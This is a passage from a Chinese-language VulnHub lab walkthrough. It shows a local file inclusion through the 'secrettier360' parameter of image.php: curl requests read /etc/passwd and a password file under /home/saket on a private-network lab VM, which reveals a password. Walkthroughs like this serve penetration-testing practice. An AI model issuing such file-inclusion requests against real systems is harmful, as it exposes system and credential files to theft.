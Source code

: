 ```
于是想到image.php，试试看能不能进行文件包含等操作。参数传入内容/etc/passwd，竟然获得敏感文件的内容。尝试查看/etc/shadow失败了，说明可能权限不够。
```

![image-20241203001255558](vulnhub靶场实战/image-20241203001255558.png)	

```
curl http://192.168.15.134/image.php?secrettier360=/etc/passwd
发现这个文件中有提示信息，提示了password.txt的目录。
```

![image-20241203001448270](vulnhub靶场实战/image-20241203001448270.png)	

```
于是查看这个密码文件，得到密码follow_the_ippsec
curl http://192.168.15.134/image.php?secrettier360=/home/saket/password.txt
```

![image-20241203001619464](vulnhub靶场实战/image-20241203001619464.png)	
